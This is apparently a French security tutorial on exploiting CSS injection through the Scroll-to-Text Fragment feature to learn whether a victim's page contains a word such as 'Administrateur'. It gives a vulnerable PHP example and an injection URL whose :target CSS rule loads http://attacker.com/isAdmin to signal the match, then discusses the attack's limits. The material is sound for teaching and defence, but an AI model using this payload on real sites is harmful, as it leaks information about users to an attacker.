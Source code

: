 ```yaml
---
description: 16 Décembre 2022
---
```


# Les injections CSS - Scroll-to-Text Fragment

## Scroll-to-Text Fragment

Un attaquant peut s'appuyer sur la fonctionnalité de Scroll-to-Text Fragment afin d'exploiter une injection CSS dans l'objectif de connaitre la présence d'un mot ou d'une phrase dans la page Web de sa victime. Les scénarios d'utilisation sont très nombreux, mais il est possible de prendre le cas d'un attaquant souhaitant connaitre le rôle de la victime.

{% hint style="info" %}
La fonctionnalité de lien vers un fragment de texte (Scroll-to-Text Fragment) permet à un utilisateur de créer un lien vers une partie spécifique d'une page en prenant comme référence un texte fournit dans l'URL. Une fois la page chargée, le navigateur mettra le texte recherché en surbrillance et fera défiler l'écran jusqu'à sa position.



La fonctionnalité Scroll-to-Text Fragment n'étant pas un standard, elle n'est donc pas implémentée sur Firefox.
{% endhint %}

En admettant la page vulnérable suivante :&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>CSS Injection</title>
    <style>
      h1 {
        color: <?php echo htmlspecialchars($_GET['color'], ENT_QUOTES | ENT_SUBSTITUTE | ENT_HTML5, "UTF-8") ?>;
      }
    </style>
  </head>
  <body>
    <h1>Injection CSS - utilisation de la fonctionnalité Scroll-to-Text Fragment</h1>
    <div>
      <p>Connecté en tant que <?php echo $role ?></p>
    </div>
  </body>
</html>
```
{% endcode %}

La variable PHP `$role` contient le rôle du visiteur authentifié. Elle peut contenir la valeur "Administrateur" ou "Utilisateur". L'attaquant souhaite tout d'abord déterminer si le visiteur de la page est bien l'administrateur du site afin, ensuite, d'effectuer une attaque plus poussée contre lui ; c'est ici que la fonctionnalité Scroll-to-Text Fragment va lui être utile.

### Text Fragments

Un fragment de texte dans une URL se compose du signe `#` suivi de `:~:text=` et se termine par le texte ciblé (encodé en URL) :&#x20;

```
http://vulnerable.com/scroll-to-text.php#:~:text=texte-ciblé
```

En reprenant le code de l'exemple précédent, il est donc possible de mettre en surbrillance le mot ciblé comme ceci :&#x20;

```
http://vulnerable.com/scroll-to-text.php#:~:text=Administrateur
```

<figure><img src="../../../../.gitbook/assets/image (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

Ou alors une phrase entière :&#x20;

<figure><img src="../../../../.gitbook/assets/image (5) (3).png" alt=""><figcaption></figcaption></figure>

Il est également possible de surligner tout un paragraphe en spécifiant le texte du début (`textStart`) et le texte de fin (`textEnd`) séparés par une virgule :&#x20;

<figure><img src="../../../../.gitbook/assets/image (3) (2).png" alt=""><figcaption></figcaption></figure>

Ou encore d'ajouter des suffixes et des préfixes :&#x20;

```html
#:~:text=[prefix-,]textStart[,textEnd][,-suffix]
```

Une dernière possibilité pouvant être utile est de pouvoir effectuer une multi sélection grâce au caractère `&`. Par exemple :&#x20;

<figure><img src="../../../../.gitbook/assets/image (4) (5).png" alt=""><figcaption></figcaption></figure>

### La pseudo-class :target&#x20;

L'injection CSS et l'utilisation de la pseudo-class `:target`, va permettre de prévenir l'attaquant dans le cas ou le texte recherché a bien été trouvé :&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```html
<style>
  :target::before {
    content:url(http://attacker.com/isAdmin);
  }
</style>
```
{% endcode %}

Soit l'injection suivante :&#x20;

{% code overflow="wrap" %}
```
http://vulnerable.com/scroll-to-text.php?color=black;}:target::before{content:url(http://attacker.com/isAdmin);#:~:text=Administrateur
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

L'attaque ne passera pas inaperçu pour la victime puisque le texte ciblé sera souligné et un défilement sera effectué si nécessaire :&#x20;

<figure><img src="../../../../.gitbook/assets/image (2) (2).png" alt=""><figcaption></figcaption></figure>

### Limites de l'attaque

Outre le fait de pouvoir injecter du CSS, l'attaque possède quelques limites. Comme déjà évoqué, elle est assez voyante pour la victime par le surlignage et le défilement.

{% hint style="info" %}
A noter que si le serveur vulnérable présente l'entête HTTP `Document-Policy` avec la valeur `force-load-at-top` alors, le défilement n'aura pas lieu, ce qui peut être un avantage pour l'attaquant.
{% endhint %}

De plus, la fonctionnalité s'active seulement lors d'une navigation vers une page différente, c'est à dire que rafraichir la page ou ouvrir un lien vers la même page ne déclenchera pas l'attaque. Exit également l'iframing de la page vulnérable, la fonctionnalité ne se déclenchera pas dans ce contexte non plus.
